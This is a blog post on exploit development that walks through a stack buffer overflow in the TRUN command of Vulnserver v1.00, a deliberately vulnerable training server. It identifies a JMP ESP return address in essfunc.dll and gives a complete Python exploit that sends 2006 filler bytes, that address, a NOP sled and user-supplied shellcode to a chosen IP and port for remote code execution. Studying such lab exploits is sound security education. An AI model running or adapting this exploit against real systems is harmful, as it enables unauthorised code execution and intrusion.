 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 2
published: 2025-10-22
description: RCE exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 RCE Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Rs7UawYGYUg?si=9-AftjVomWWhah4X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Exploit Overview
![x32dbg](./debugger_view.png)

In x32dbg, if you go to **Symbols → essfunc.dll → EssentialFunc4** you’ll see code like the one above.
Here, the instruction `JMP ESP` (located at **0x625011BB**) is critical for control-flow hijacking.
It transfers execution to the address held in the ESP (Extended Stack Pointer) register, which points to the top of the stack.
By overwriting that location we can redirect execution to our mapped shellcode and ultimately run that shellcode.

## PoC
```python
from argparse import ArgumentParser
from socket import *
import struct

def createPayload(shellcode_path: str):
    data = b"A" * 2006
    return_address = struct.pack("<L", 0x625011BB)
    nop_sled = b"\x90" * 50
    shellcode = b""

    with open(shellcode_path, "rb") as fp:
        shellcode = fp.read()
        fp.close()

    payload = b"TRUN \x2E"
    payload += data
    payload += return_address
    payload += nop_sled
    payload += shellcode

    return payload

def exploit(ip: str, port: int, shellcode_path: str):
    print("[~] Generating payload...")
    payload = createPayload(shellcode_path)
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] RCE Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    parser.add_argument(
        "-s", "--shellcode",
        type=str,
        help="Set shellcode file path",
        required=True
    )

    args = parser.parse_args()

    target_ip       = str(args.target)
    target_port     = int(args.port)
    shellcode_path  = str(args.shellcode)

    exploit(target_ip, target_port, shellcode_path)

if __name__ == "__main__":
    main()
```

Since the program is x32, I converted the `JMP ESP` address to an x32 (32-bit) address using `struct` and `"<L"` like this:

```python
struct.pack("<L", 0x625011BB)
```

If we jump to that location, we'll find the shellcode mapped immediately after a 50 bytes of NOP sled.

After that, the shellcode provided by the user is loaded into memory and executed immediately. Below are the execution results:

![result](./result.png)